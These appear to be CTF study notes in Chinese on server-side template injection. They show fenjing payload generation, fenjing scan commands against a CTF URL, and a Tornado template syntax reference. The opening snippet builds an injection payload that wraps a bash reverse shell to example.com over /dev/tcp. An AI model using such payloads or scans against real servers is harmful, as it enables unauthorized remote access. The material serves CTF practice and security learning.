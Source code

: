 ```py
if __name__ == "__main__":
    shell_payload, _ = exec_cmd_payload(waf, "bash -c \"bash -i >& /dev/tcp/example.com/3456 0>&1\"")
    config_payload = config_payload(waf)

    print(f"{shell_payload=}")
    print(f"{config_payload=}")
```

### 总结

fenjing....

`python -m fenjing webui`

`python3 -m fenjing scan -u "https://ctf.sora.zip/decode/" --tamper-cmd 'base64'`

可以编码 之前误会他了

脚本小子

## tornado ssti

| 语法 | 用途 | 描述 |
|------|------|------|
| `{{ ... }}` | 执行Python语句 | 里面直接写Python语句即可，没有经过特殊的转换。默认输出会经过HTML编码 |
| `{% ... %}` | 特殊内置语法 | 有多种规则，如下表所示 |
| `{# ... #}` | 注释 | - |
| `{% comment ... %}` | 注释 | - |
| `{% apply *function* %}...{% end %}` | 执行函数 | `function`是函数名。`apply`到`end`之间的内容是函数的参数 |
| `{% autoescape *function* %}` | 设置编码方式 | 用于设置当前模板文件的编码方式 |
| `{% block *name* %}...{% end %}` | 引用模板段 | 配合`extends`使用 |
| `{% extends *filename* %}` | 引入模板文件 | 配合`block`使用 |
| `{% for *var* in *expr* %}...{% end %}` | 循环 | 等价于Python的`for`循环 |
| `{% from * import * %}` | 导入模块 | 等价于Python的`import` |
| `{% if %}...{% elif %}...{% else %}...{% end %}` | 条件判断 | 等价于Python的`if` |
| `{% import *module* %}` | 导入模块 | 等价于Python的`import` |
| `{% include *filename* %}` | 合并模板文件 | - |
| `{% raw *expr* %}` | 常规模板语句 | 输出不会被转义 |
| `{% set *x* = *y* %}` | 创建局部变量 | - |
| `{% try %}...{% except %}...{% else %}...{% finally %}...{% end %}` | 异常捕获 | 等同于Python的异常捕获语句 |
| `{% while *condition* %}... {% end %}` | 循环 | 等价于Python的`while`循环 |
| `{% whitespace *mode* %}` | 空白符处理 | 设定模板对于空白符号的处理机制 |

**apply的内置函数列表**:

- `linkify`: 把链接转为HTML链接标签（`<a href="...">`）
- `squeeze`: 作用与`{% whitespace oneline %}`一样

**autoescape的内置函数列表**:

- `xhtml_escape`: HTML编码
- `json_encode`: 转为JSON
- `url_escape`: URL编码